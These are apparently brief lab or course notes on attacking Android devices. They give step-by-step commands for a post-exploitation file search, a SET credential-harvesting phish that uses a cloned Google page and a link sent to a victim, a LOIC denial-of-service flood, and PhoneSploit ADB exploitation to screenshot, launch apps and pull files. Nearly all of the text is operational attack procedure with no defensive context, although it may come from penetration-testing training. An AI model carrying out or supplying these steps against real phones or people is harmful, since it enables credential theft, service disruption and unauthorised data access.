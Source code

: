 ```
>sysinfo, ipconfig, pwd, ps
>cd /sdcard
>ls -la (show hidden files too) (flag files here)
>cd DCIM (photos
>cd .thumbnails
>ls -la (show hidden files too)
```

# Phishing Attacks on Android Devices with Social Engineering toolkit
```
>cd social-engineering-toolkit
>sudo ./setoolkit
>1 (Social engineering attacks)
Select 2 for web attack
Then select 3 for credential harvesting
Select 1 for web template
Select 2 for google
Send link to victim to harvest credentials
```

# Conducting DOS attack from Android using LOIC
```
In andoird install LOIC
Left side, target IP
Protocol TCP
Click get IP
Set port to 80 and threads to 100
Click start
On target machine
Start wireshak
Statistics -> Conversations -> ipv4
```

# Exploit the Android Platform through ADB using PhoneSploit
```
On attacker (maybe need abd connect {IP}:{port} or adb devices to check
>cd PhoneSPloit
>python3 phonesploit.py
>{targetIP}
>find ~ -type d -name "Scan" -print
>find ~ -type d -name "Scan" -print 2>/dev/null
>cd sdcard/Download (interesting files placed here)
>exit
Option 7 to take screenshot
List Apps, System info. Force start apps
Option 15 to force start an application
Option 9 to download files from android to local
```
